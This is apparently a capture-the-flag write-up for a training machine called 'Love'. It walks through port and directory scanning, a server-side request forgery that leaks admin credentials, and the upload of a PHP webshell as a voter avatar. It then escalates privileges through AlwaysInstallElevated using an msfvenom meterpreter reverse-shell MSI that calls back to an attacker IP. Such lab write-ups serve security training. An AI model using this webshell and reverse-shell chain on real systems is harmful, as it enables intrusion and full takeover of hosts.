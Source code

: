 # Love

## Discovery

### Services

```
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
|_SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   oracle-tns: 
|_    Host '10.10.16.26' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
```

### Directories

```
/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/]
/index.php            (Status: 200) [Size: 4388]                                
/preview.php          (Status: 302) [Size: 0] [--> index.php]                   
/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/] 
/login.php            (Status: 302) [Size: 0] [--> index.php]                      
/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]  
/home.php             (Status: 302) [Size: 0] [--> index.php]                      
/examples             (Status: 503) [Size: 402]                                    
/licenses             (Status: 403) [Size: 421]                                    
/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]    
/tcpdf                (Status: 301) [Size: 337] [--> http://10.10.10.239/tcpdf/]   
/logout.php           (Status: 302) [Size: 0] [--> index.php] 
```

The directories can be browsed: if we ever get to upload a payload, it may end
up in "/images".

## The file scanner

Let's add `staging.love.htb` to our hosts:

```bash
echo 10.10.10.239 staging.love.htb >> /etc/hosts
```

The subdomain [staging.love.htb](http://staging.love.htb) leads to a
file scanning web service.

The content of the file is escaped and included in the server php:

```php
<!--?php system(urldecode($_REQUEST['apehex']));-->
```

We can include local files like `http://127.0.0.1/index.php`. Trying all the
discovered urls, finally `http://127.0.0.1:5000` shows its true face:

> Vote Admin Creds admin: @LoveIsInTheAir!!!!

## Planting a backdoor

Changing a voter's avatar will upload a "photo" to the "images" subdirectory.

So we upload a basic webshell, for a change:

```php
<?php system($_REQUEST['apehex']);?>
```

We can get the user flag now:

```
apehex=whoami
apehex=type C:\Users\Phoebe\Desktop\user.txt
```

## Escalation

From there, let's directly look for an escalation vector, using `PrivescCheck`:

```powershell
powershell -ep bypass -c ". .\pec.ps1; Invoke-PrivescCheck -Extended"
```

```
+------+------------------------------------------------+------+
| TEST | CONFIG > AlwaysInstallElevated                 | VULN |
+------+------------------------------------------------+------+
| DESC | Check whether the 'AlwaysInstallElevated' registry    |
|      | keys are configured and enabled. If so any user might |
|      | be able to run arbitary MSI files with SYSTEM         |
|      | privileges.                                           |
+------+-------------------------------------------------------+
[*] Found 2 result(s).


Enabled               : True
Name                  : HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
AlwaysInstallElevated : 1

Enabled               : True
Name                  : HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
AlwaysInstallElevated : 1
```

This allows us to create a reverse shell with:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.31 lport=1234 -f msi > www/evil.msi
```

And, after starting the handler in msf, this command will launch the shell:

```
msiexec /quiet /qn /i evil.msi
```